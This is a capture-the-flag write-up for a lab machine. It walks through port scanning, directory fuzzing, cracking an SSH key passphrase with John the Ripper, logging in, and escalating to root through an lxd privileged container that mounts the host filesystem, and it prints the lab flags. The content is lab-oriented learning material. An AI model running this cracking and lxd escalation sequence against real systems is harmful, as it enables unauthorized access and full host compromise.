


* Running Nmap
```
nmap -p- --min-rate=1000 10.10.165.228
```



-> all ports are filtered
-> for more detailed NMAP scan:

```
nmap -sC -sV 10.10.165.228 -p22,80 -o nmap
```



-> fuzzing directories through FFUF 

```
ffuf -u http://10.10.165.228/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt
```


-> searching directories through gobuster

```
gobuster dir -u http://10.10.165.228 -u /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


* looking at the side's page source we find the username john :
* as shown by the gobuster moving to the directory /secret give the ssh private key however login is not successful since it contains passphrase
* trying to bruteforce the ssh private key
* i googled a bit and found this tutorial on how to [crack ssh private key](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/)
 * first i downloaded the ssh2john and converted the private key to hash


````
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
````

````
ssh2john rsaprivkey >rsaprivkey.hash
````


````
john --wordlist=/usr/share/wordlists/rockyou.txt rsaprivkey.hash
````


gives me the password: **letmein**

now sshing to the shell

```
ssh -i priv_key john@10.10.165.228
```

passphrase:letmein

cat user.txt returns **a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e**

running id shows user running lxd which lets escalate our privilege
I don't know much about lxd  so I took help of google and got this awesome 
page [lxd_privesc](https://vk9-sec.com/lxd-privilege-escalation/#:~:text=lxd%20%E2%80%93%20privilege%20escalation%201%201.%20In%20this,execute%20bash%20within%20the%20instance%20...%20More%20items) and [lxd-another-technique](https://www.hackingarticles.in/lxd-privilege-escalation/)


the sequence of commands that i ran with the help of website are:


````
lxd init
````

````
lsb_release -a
````

````
lxc init ubuntu:18.04 test -c security.privileged=true
````

````
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
````

````
lxc start test
````

````
lxc info test
````

````
lxc exec test bash
````

````
cd /mnt/root
````

which gives me rootflag.txt ---> **2e337b8c9f3aff0c2b3e8d4e6a7c88fc**


